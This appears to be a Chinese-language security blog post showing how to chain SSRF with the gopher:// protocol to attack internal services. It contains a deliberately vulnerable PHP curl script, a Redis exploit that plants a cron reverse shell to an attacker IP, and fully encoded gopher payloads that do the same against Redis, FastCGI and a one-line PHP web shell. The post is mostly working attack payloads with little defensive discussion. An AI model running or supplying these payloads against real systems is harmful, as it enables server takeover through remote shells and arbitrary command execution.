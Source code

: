 # Do Evil Things with gopher://

0x00 前言
=======

* * *

Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。但是经过部分测试，发现阿里云的 libcurl 还是支持 Gopher 协议的，在实际环境中可能会有更多。

Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

最大化利用 SSRF，将一个鸡肋漏洞玩的的淋漓尽致的例子也有，比如：[WooYun-2016-213982：bilibili某分站从信息泄露到ssrf再到命令执行](http://wooyun.org/bugs/wooyun-2016-0213982)

0x01 环境
=======

* * *

*   IP: 172.19.23.218
*   OS: CentOS 6

根目录下 1.php 内容为：

```
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
curl_close($ch);
?>

```

0x02 攻击内网 Redis
===============

* * *

Redis 任意文件写入现在已经十分受到广大渗透狗们的欢迎，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议攻击内网中的 Redis，这无疑可以隔山打牛，直杀内网。

首先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议。常见的 exp 是这样的：

```
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save

```

利用这个脚本攻击自身并抓包得到数据流：

![](http://drops.javaweb.org/uploads/images/99329e6728d88e207940c4cd9aa89300e658d6a8.jpg)

改成适配于 Gopher 协议的 URL：

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

```

攻击：

![](http://drops.javaweb.org/uploads/images/ff6000014d4b5c4a961a3bdfa93cc7497439620f.jpg)

0x03 攻击 FastCGI
===============

* * *

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。

首先构造 exp：

![](http://drops.javaweb.org/uploads/images/87156c4a375abfbcc215b11e91bd405af4c70b54.jpg)

构造 Gopher 协议的 URL：

```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00

```

攻击：

![](http://drops.javaweb.org/uploads/images/73b9373a96fb0db68ab633d16a88db2f62cf580b.jpg)

0x04 攻击内网 Vulnerability Web
===========================

* * *

Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。  
一个只能 127.0.0.1 访问的 exp.php，内容为：

```
<?php system($_POST[e]);?>  

```

利用方式：

```
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261

```

构造 Gopher 协议的 URL：

```
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null

```

攻击：

![](http://drops.javaweb.org/uploads/images/e9c14857e40056cc9a8b63be1e5de4928ae74a49.jpg)

0x05 以上
=======

* * *

Gopher + SSRF 组合拳还有更多的姿势等待挖掘，水平有限，抛砖引玉。

0x06 参考
=======

* * *

*   [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
*   [redis 远程命令执行 exploit (不需要flushall)](http://zone.wooyun.org/content/23858)
*   [PHP FastCGI 的远程利用](http://zone.wooyun.org/content/1060)